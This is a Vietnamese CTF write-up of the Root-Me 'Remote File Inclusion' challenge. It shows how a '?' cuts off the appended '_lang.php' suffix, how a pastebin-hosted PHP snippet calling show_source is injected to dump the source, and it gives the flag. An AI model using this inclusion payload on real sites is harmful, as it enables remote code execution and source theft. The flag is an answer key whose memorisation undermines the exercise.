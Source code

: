 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Remote File Inclusion
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - PHP
    - Path Traversal
---
```


# __Remote File Inclusion__

<span>
:octicons-calendar-24: May 12, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

Link challenge này tại [:octicons-arrow-right-24: challenge01.root-me.org/web-serveur/ch13/][challenge01.root-me.org/web-serveur/ch13/]

  [challenge01.root-me.org/web-serveur/ch13/]: challenge01.root-me.org/web-serveur/ch13/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là lấy được source code php.

## __Kịch bản tấn công__

Sau một hồi fuzzing website ta biết được khi nó query tại `lang = ...` thì nó tự động thêm `_lang.php` vào sau, ta sẽ phải tìm cách bypass nó. Với lại vì đây là challenge RFI nên ta cũng cần phải tìm 1 website khác để remote từ xa. Đó là ý tưởng :3. Sau một hồi google thì ta phải filter bằng dấu `?` để có thể ngắt việc thêm `_lang.php` vào sau

<figure markdown>
  ![Image title](/rootme/web-server/php/images/remote_file_inclusion-01.png#zoom)
  <figcaption>Hình ảnh nội dung file php</figcaption>
</figure>

Roài, ta sẽ tìm cách lấy sourcecode web bằng việc tiêm `https://pastebin.com/raw/wq4ca9ak` vào với nội dung file text là 

<div class="result" markdown>

``` php linenums="1"
<?php
echo show_source("index.php");
?>
```

</div>

<figure markdown>
  ![Image title](/rootme/web-server/php/images/remote_file_inclusion-02.png#zoom)
  <figcaption>Hình ảnh nội dung file php</figcaption>
</figure>

Ta nhận được flag

!!! success "__Flag__"
    R3m0t3_iS_r3aL1y_3v1l